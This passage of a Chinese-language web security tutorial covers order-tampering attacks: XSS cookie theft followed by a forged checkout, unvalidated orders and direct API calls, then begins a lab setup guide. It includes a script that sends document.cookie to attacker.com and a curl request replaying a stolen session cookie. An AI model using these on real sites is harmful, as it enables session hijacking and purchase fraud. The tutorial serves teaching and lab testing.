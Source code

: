 **攻击步骤**：
1. 利用XSS漏洞注入恶意脚本，窃取用户的会话Cookie。
2. 使用窃取的Cookie构造HTTP请求，提交恶意订单。

**代码示例**：
```javascript
// 恶意脚本
var img = new Image();
img.src = "http://attacker.com/steal?cookie=" + document.cookie;

// 使用窃取的Cookie提交订单
curl -X POST http://victim.com/checkout -H "Cookie: session_id=stolen_cookie" -d "product_id=123&quantity=1&price=10"
```

### 2.3 业务逻辑缺陷
#### 2.3.1 未验证订单合法性
某些Web应用在订单处理流程中未验证订单的合法性，如未检查库存、未验证用户权限等，导致攻击者可以提交非法订单。

**攻击步骤**：
1. 构造一个非法订单（如超出库存数量的订单）。
2. 提交订单，观察是否成功。

**代码示例**：
```javascript
// 构造非法订单
POST /checkout HTTP/1.1
Content-Type: application/x-www-form-urlencoded

product_id=123&quantity=1000&price=100
```

### 2.4 API滥用
#### 2.4.1 直接调用未保护API
某些Web应用提供了未充分保护的API接口，攻击者可以通过直接调用这些接口来篡改订单。

**攻击步骤**：
1. 使用工具（如Burp Suite）拦截订单提交请求，找到API接口。
2. 直接调用API接口，修改订单参数。

**代码示例**：
```javascript
// 直接调用API接口
POST /api/checkout HTTP/1.1
Content-Type: application/json

{"product_id": 123, "quantity": 1, "price": 10}
```

## 3. 实验环境搭建指南

### 3.1 实验环境需求
- **操作系统**：Linux（如Ubuntu 20.04）
- **Web服务器**：Apache或Nginx
- **数据库**：MySQL或PostgreSQL
- **编程语言**：PHP、Python或Node.js
- **工具**：Burp Suite、Postman、Chrome DevTools
